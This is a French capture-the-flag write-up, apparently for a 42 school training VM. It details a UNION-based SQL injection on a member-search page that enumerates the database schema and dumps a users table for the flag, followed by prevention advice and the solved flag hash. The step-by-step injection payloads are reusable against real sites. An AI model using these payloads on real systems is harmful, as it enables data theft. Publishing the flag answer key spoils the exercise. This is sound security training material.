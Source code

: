 # Procédure GET THE 42 FLAG WITH SQL INJECTION

1. Repérer les points d'entrées vulnérables:   
    Formulaire recherche de membre [Formulaire](http://ip_darkly?page=member) `http://ip_darkly?page=member`
2. Récupérer l'empreinte du SGBD:   
    Détection par erreur + injection sql version() -> MariaDB
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 UNION SELECT 1, version() limit 1,1
    ```
3. Récupérer le nombre de colonnes max auquel l'injection SQL devra se référer:
   (n est le nombre à tester)
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 ORDER BY n
    ```
4. Récupérer le nom des tables accessibles à l'utilisateur
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 and 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
    ```
5. Récupérer le nom des colonnes qui nous interesse
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
    ```
6. Injecter plusieurs requetes SQL pour recupérer toutes les lignes de la table Member_Sql_Injection.users. La dernière colonne de chaque ligne recèle un message nous étant destiné et qu'il faut reconstituer. La dernière colonne de la dernière ligne contient le flag à décrypter depuis du md5 et à encoder en SHA256
    ``` shell
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT user_id, countersign FROM Member_Sql_Injection.users
    ```

# Comment s'en prémunir

- Parser les inputs utilisateurs et échapper tous les caractères spéciaux
- Répondre aux erreurs de SGBD avec des erreurs personnalisées en laissant peu
  d'indication sur l'erreur en cours afin de ne pas aiguiller un attaquant sur
  ce qui peut être vulnérable
- Utiliser les `parametrized query` offertes par les différents frameworks/API de
  développement (PDO...). **NEVER TRUST INPUT USER**. Ne jamais passer telle quelle une
  valeur récupérée d'une saisie utilisateur à une requête SQL.
- Utiliser HTTPS afin de crypter les données transitant sur le réseau.

## Pour plus d'informations:  
[WSTG-INPV-05](https://github.com/clallier94/wstg-translation-fr/blob/main/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.md)   
[WSTG-CRYP-03](https://github.com/clallier94/wstg-translation-fr/blob/0d20f06e3195a81fd07c9294207dd80ba7710e55/4-Web_Application_Security_Testing/09-Testing_for_Weak_Cryptography/03-Testing_for_Sensitive_Information_Sent_via_Unencrypted_Channels.md)    

## Flag
```text
3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5
```
